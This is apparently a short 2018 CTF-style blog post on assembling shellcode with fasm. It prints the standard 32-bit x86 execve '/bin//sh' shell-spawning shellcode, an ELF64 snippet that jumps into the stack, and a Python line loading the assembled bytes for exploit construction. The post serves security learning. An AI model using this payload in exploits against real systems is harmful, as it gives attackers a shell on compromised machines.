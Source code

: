 ```yaml
---
layout: post
title: "writing shellcode using fasm"
date: 2018-09-01 14:01:00 -0500
published: true
---
```


[Small binary file containing only shellcode](https://klatz.co/ctf-blog/x86_32-execve-shellcode)

```
apt install fasm -y
```

```
; fasm example: this generates raw instruction in a file
; x86_32 shellcode
format binary
use32 ; 32b
    xor    eax,eax
    push   eax
    push   0x68732f2f
    push   0x6e69622f
    mov    ebx,esp
    push   eax
    push   ebx
    mov    ecx,esp
    mov    al,0xb
    int    0x80
```

```
; this generates a runnable executable
format ELF64 executable
use64
    push 0x20
    jmp  QWORD [rsp]
```

```
# assemble it
fasm blah.asm blah.bin
```

```
# you can read it into python, if you're constructing shellcode
with open("blah.bin") as f:
    shellcode = f.read()
```

